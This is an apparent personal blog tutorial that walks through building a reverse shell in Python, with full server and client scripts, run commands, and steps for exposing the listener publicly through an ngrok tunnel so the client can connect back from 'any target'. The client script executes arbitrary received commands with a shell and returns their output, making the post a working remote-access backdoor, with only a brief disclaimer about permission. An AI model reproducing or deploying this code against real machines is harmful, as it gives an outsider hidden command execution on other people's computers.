 A reverse shell with Python
===========================

:status: draft
:date: 2021-02-19 20:15
:tags: security, linux, hacking, shell, sockets
:summary: I build a reverse shell with python and uses ngrok to make the server public

**Disclaimer**: The described methods should only be used for systems which you
have access rights. I used this method to get access to my mums PC, which I was
allowed. And yes, I'm 31, have my own family, but still help my mom with her PC.

.. image:: {static}/images/articels/security/reverse-shell-003.gif
  :width: 100 %
  :alt: alternate text

Some basics
-----------
What is a reverse shell? With a reverse shell, the target makes the connection.
On your client is run a server program, which listening for incoming
connections. And the target execute a program, which connect to your client.
Then you can run commands on the target from your client. My research:

  * `Acunetix <https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/>`_
  * `PythonCode <https://www.thepythoncode.com/article/create-reverse-shell-python>`_
  * `netsparker <https://www.netsparker.com/blog/web-security/understanding-reverse-shells/>`_

Python
------
We will write two small Python scripts one for the server and one for the
client. The only modules we use are
`sockets <https://docs.python.org/3/library/socket.html>`_ and the
`subprocess <https://docs.python.org/3/library/subprocess.html>`_. Make sure you
have read the documentation. The programs are short and self-explanatory,
nothing complicated just a little loop.


Server
~~~~~~

.. code-block:: python

  import socket

  HOST = '0.0.0.0'
  PORT = 5555

  # set up the socket so that it waits for an incoming connection
  s = socket.socket()
  s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
  s.bind((HOST, PORT))
  s.listen(1)
  print(f'[*] listening as {HOST}:{PORT}')

  # waiting for the target and sent a welcome message if it connected
  client_s, client_addr = s.accept()
  print(f'[*] client connected {client_addr}')
  client_s.send('welcome'.encode())

  # this loop will run, until you enter 'quit'
  while True:

      # 1. enter the command and send it to the target
      cmd = input('>>> ')
      client_s.send(cmd.encode())

      # check if you want to quit
      if cmd.lower() == 'quit':
          break

      # get the result of the command, executed on the target pc
      result = client_s.recv(1024).decode()
      print(result)

  client_s.close()
  s.close()


Client
~~~~~~

.. code-block:: python

  import socket
  import subprocess

  HOST = '0.0.0.0'
  PORT = 5555

  # set up the socket and connect to the server
  s = socket.socket()
  s.connect((HOST, PORT))

  # get the welcome message
  msg = s.recv(1024).decode()
  print('[*] server:', msg)

  # this loop will run until it receive 'quit'
  while True:

      # receive the command and print it
      cmd = s.recv(1024).decode()
      print(f'[*] receive {cmd}')

      # check if you want to quit
      if cmd.lower() == 'quit':
          break

      # now run the command and get the result.
      try:
          result = subprocess.check_output(cmd, stderr=subprocess.STDOUT, shell=True)
      except Exception as e:
          result = str(e).encode()

      # if the command has no output, send 'ok' so the server knows everything is okay
      if len(result) == 0:
          result = 'OK'.encode()

      # send teh result to the server
      s.send(result)

  s.close()

How to run
----------
We only uses the Python Standard Library, so we don't have to install anything.
Simple execute

.. code-block:: shell

  python3 server.py

and

.. code-block:: shell

  python3 client.py

.. image:: {static}/images/articels/security/reverse-shell-001.gif
  :width: 100 %
  :alt: alternate text

The server run with *HOST=0.0.0.0* so that it listen on all incoming connection.
On some examples you read something like *HOST=localhost* or *HOST=127.0.0.1*.
But then it's only listen on connection from the *localhost*. You shouldn't
change the *HOST* of the server script. But if you run the client on another PC,
you have to enter the IP address of the server for the *HOST*. You get a problem
if the PC is not in your local network. Of course you can forward the port in
your router and then specify your public IP as *HOST*. But I want to show you
another way.

ngrok
-----
ngrok is a reverse proxy that creates a secure tunnel from a public endpoint to
a locally running web service. Simply put, with ngrok you can make any local
service public. And we will make our server public. Go to
`ngrok <https://ngrok.com>`_ sign up and follow the setup tutorial for your
system. For me it's

  1. download

     .. code-block:: shell

       wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip

  2. unzip

     .. code-block:: shell

       unzip ngrok-stable-linux-amd64.zip

  3. connect your account

     .. code-block:: shell

       ./ngrok authtoken 1WeW...

  4. exposed the server

     .. code-block:: shell

       ./ngrok tcp 5555

Now you are ready to run the client on any target, but you have to change the
*HOST* and *PORT* to the values from ngrok. For my example that will be

.. code-block:: python

  ...
  HOST = '4.tcp.ngrok.io'
  PORT = 12050
  ....

.. image:: {static}/images/articels/security/reverse-shell-002.png
  :width: 100 %
  :alt: alternate text

Conclusion
----------
As you can see, it's not that complicated to create your own reverse shell and
make it public. I know, there's a lot of space to improve this script. But for a
really Simple example they are quite good enough.
